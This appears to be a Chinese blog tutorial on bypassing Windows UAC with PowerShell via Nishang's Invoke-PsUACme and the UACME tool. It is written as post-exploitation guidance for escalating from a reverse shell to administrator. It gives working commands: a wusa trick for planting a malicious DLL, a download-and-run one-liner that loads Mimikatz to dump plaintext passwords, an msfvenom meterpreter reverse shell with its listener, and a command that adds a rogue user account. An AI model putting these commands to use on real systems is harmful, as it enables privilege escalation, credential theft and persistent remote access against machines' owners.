 ```yaml
---
title: 使用Powershell Bypass UAC
date: 2015-12-25T08:52:52+08:00
update: 2016-01-01
categories: [网络安全]
tags: [powershell]
---
```

0x00 简介

UAC(User Account Control，用户帐户控制)是微软为提高系统安全而在Windows Vista中引入的新技术，它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。也就是说一旦用户允许启动的应用程序通过UAC验证，那么这个程序也就有了管理员权限。许多情况下，我们获取了反弹的shell但是由于UAC这个烦人的东西并不能获取最高的权限，今天主要介绍使用powershell来bypass uac从而获取更高的权限。

## 0x01 Bypass UAC
UACME及使用方法

我们选择的用以绕过UAC的工具是[UACME](https://github.com/hfiref0x/UACME)。这个优秀的工具实现了各种方法，并且值得庆幸的是它是开源的，为此感谢@hFirF0XAs。因为我总是尽量在后期利用阶段都使用PowerShell，所以我测试了UACME，并使用PowerShell实现了其中的一些方法。这里我给出Invoke-PsUACme.ps1文件，你可以在Nishang中的“[Escalation](https://github.com/samratashok/nishang/tree/master/Escalation)提权”分类中找到它。

首先，我们以sysprep方法开始，它是绕过UAC最常用的方法，它在2009年由Leo Davidson而出名[详情](http://www.pretentiousname.com/misc/W7E_Source/win7_uac_poc_details.html)。它包括以下步骤：
step1: 复制DLL文件到C:\Windows\System32\sysprep目录，DLL的名字取决于操作系统版本（1）Windows 7上为CRYPTBASE.dll。
（2）Windows 8上为shcore.dll。
step2：从上面的目录执行Sysprep.exe。他将加载上面的DLL，完成权限的提升。
具体dll名及利用exe如下表：
![](http://image.3001.net/images/20151011/14445714412788.jpg)

总结了一下突破Windows UAC的方式主要有以下几种：

1、使用IFileOperation COM接口；
2、使用Wusa.exe的extract选项；
3、远程注入SHELLCODE 到傀儡进程;
4、DLL劫持，劫持系统的DLL文件；
5、直接提权过UAC;
6、MS15-076(感觉上也可以用到) POC。
部分方式需要我们将DLL文件拷贝到相应的目录，这里拿Sysprep来做测试，要往这个目录拷贝文件需要管理员的权限，直接copy是不可以的,本文介绍的脚本使用了第二种方式，下面是一个测试。
使用copy:

`C:\UAC>copy evil.dll C:\Windows\System32\sysprep\`


使用Wusa.exe：

C:\> makecab C:\uac\evil.dll C:\uac\uac.cab
C:\> wusa C:\uac\uac.cab /extract:C:\Windows\System32\sysprep\


可以看到使用wusa成功拷贝。

## 0x02 Invoke-PsUACme

Invoke-PsUACme 是nishang的一个脚本，该脚本使用了列表中的几个方式来进行bypass UAC，目前支持Win7 ，Win8,由于Win10的wusa extract选项不在受支持，所以此脚本并不适用于Win10。
该脚本的所使用的DLL来自于开源项目UACME。nishang作者对代码进行了一下简单地修改，这里就不详细说了。
这里介绍一下脚本的使用,加载脚本：

PS C:\UAC> . .\Invoke-PsUACme.ps1
查看说明：

PS C:\UAC> help Invoke-PsUACme
主要参数说明：Payload为自定义要执行的程序；method为bypass的方式，包括Sysprep，OOBE，ActionQueue等几种；Verbose显示程序运行过程；CustomDLL64,CustomDLL32可以指定自定义DLL。

执行：

PS C:\UAC> Invoke-PsUACme -Verbose


使用Sysprep执行payload:

PS C:\UAC> Invoke-PsUACme -method sysprep -Payload "cmd.exe"


执行某个自定义程序需要在payload出填写绝对路径。

自定义DLL：

PS C:\> Invoke-PSUACMe -CustomDll64 C:\test\test64.dll -CustomDll32 C:\test\test32.dll -Verbose"

## 0x03 能做什么

1）通过bypass UAC我们可以通过普通的cmd抓到管理员密码。
普通cmd运行在线抓明文：

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz


bypass UAC以后：

PS C:\UAC> . .\Invoke-PsUACme.ps1
PS C:\UAC> Invoke-PsUACme -Payload "powershell -noexit IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"


让meterpreter获得更高的权限。
生成payload:
☁  ~  sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=8889 -f psh-reflection
将输出文件保存为psh.ps1

msf开启监听：

msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost x.x.x.x
lhost => x.x.x.x
msf exploit(handler) > set lport 8889
lport => 8889
msf exploit(handler) > exploit
普通cmd执行:



bypass UAC 以后执行：



## 0x04 Win10 Bypass UAC

我修改了一个使用远程注入方式Bypass UAC的powersell脚本以支持Win10,脚本地址：[戳我](https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/invoke-BypassUAC.ps1)

使用方式与nishang不同，并没有回显，使用win10进行测试：

PS F:\drops\UAC> . .\invoke-BypassUAC.ps1
PS F:\drops\UAC> invoke-BypassUAC -Command 'net user 1 "Password123!" /add'


除了上面的脚本，UACME也很好的支持win10,使用方式为：

akagi32.exe 1
akagi64.exe 3
akagi32 1 c:\windows\system32\calc.exe
akagi64 3 c:\windows\system32\cmd.exe
0x05 小结

绕过UAC能获取更高的权限，你还发愁抓密码么？


http://evi1cg.me/archives/Powershell_Bypass_UAC.html
http://www.freebuf.com/articles/system/81286.html
